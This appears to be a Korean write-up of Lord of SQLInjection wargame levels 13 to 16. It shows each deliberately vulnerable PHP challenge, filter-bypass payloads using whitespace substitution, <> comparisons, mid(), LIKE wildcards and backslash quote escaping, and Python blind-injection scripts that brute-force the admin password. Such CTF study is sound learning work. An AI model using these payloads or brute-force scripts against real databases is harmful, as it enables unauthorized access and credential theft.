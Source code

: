 13-bugbear
====
* 핵심: substr, single quote의 대체
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
* admin 권한 획득
    * no에서 filtering을 뚫으려 했다.
        * filtering에 등호와 single quote가 들어가면 안되므로, double quote와 <>를 사용해 주었다.
    * ?no=2%09||%09id<>"guest"
* pw 길이 추정
    * ?no=2%09||%09id<>"guest"%09%26%26%09length(pw)<>7
        * 에서는 admin이 획득되나,
    * ?no=2%09||%09id<>"guest"%09%26%26%09length(pw)<>8
        * 에서는 admin이 획득되지 않으므로
    * pw의 길이는 8이다.
* pw 추정
    * 다음의 script를 이용하였다.
    ```py
    import urllib.request
    import requests

    url='https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php'
    headers = { 'Cookie': 'PHPSESSID=8u0ue0omqon5eb2fqcmr03ev33' }
    pw=""

    for i in range (1,8):
        for j in range(48, 123):
            query='?no=2%09||%09id<>"guest"%09%26%26%09mid(pw,{},{})>"{}"%09%26%26%09mid(pw,{},{})<"{}"'.format(i,i,chr(j-1),i,i,chr(j+1))
            r = requests.get(url + query, headers=headers)
            if r.text.find("<h2>Hello admin</h2>") != -1:
                pw += chr(j)
                print('password is ', pw)
                break
    ```
* [정답](https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php?pw=52dc3991)

14-giant
====
* 핵심: whitespace bypass
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```
> Some case SQL keyword was filtered out and replaced with whitespace. So you can use “%0b” to bypass.
* 검색을 통해 알 수 있었다..ㄷㄷ [출처](https://hydrasky.com/network-security/sql-injection-bypass-cheatsheet/)
* [정답](https://los.rubiya.kr/chall/giant_18a08c3be1d1753de0cb157703f75a5e.php?shit=%0b)

15-assasin
====
* like 문법인 _과 %를 이해하고 있는가?
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```
* like 문자열을 사용할때, %와 _를 사용하면 더 편하게 이를 알 수 있다.
```py
import urllib.request
import requests

url='https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php'
headers = { 'Cookie': 'PHPSESSID=8u0ue0omqon5eb2fqcmr03ev33' }
pw=""

for i in range (1,8):
    for j in range(48, 123):
        query='?pw={}'.format(pw + chr(j))
        print(query)
        r = requests.get(url + query, headers=headers)
        if r.text.find("<h2>Hello admin</h2>") != -1:
            pw += chr(j)
            print('password is ', pw)
            break
```
* 처음 guest와 admin의 password가 겹쳐서 이를 script로 유추해야 한다.

16-succubus
====
```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```
* quote에 대한 filtering이 둘다 이루어지기 때문에, quote를 이용한 sql injection은 할 수 없는 상황이다.
    * 그렇기 때문에, 하나만의 get 부분?을 공격하는 것은 해결책이 보이지 않는다.
    * 두개의 인자가 동시에 상호작용하면서 무조건 값을 반환하는 query를 만들어보자
* 힌트로 문자열 이스케이프를 만들라고 했으므로, 일단 ?id=\를 넣으면 마법같은 일이 일어난다
    * pw에 quote가 씌어지지 않은 효과가 나타난다.
    * where id='\' and pw='' 에서, \'가 sql의 quote가 아니라 escape 문자로 인식되기 때문에, {\' and pw='} 값이 id로 들어간 상황이 연출된다.
    * 여기에, ?pw=1or1=1 # 을 넣어주면, 항상 값을 반환하는 query가 된다.
* [정답](https://los.rubiya.kr/chall/succubus_37568a99f12e6bd2f097e8038f74d768.php?id=\&pw=%20or%20pw=1%20or%201=1%20%23)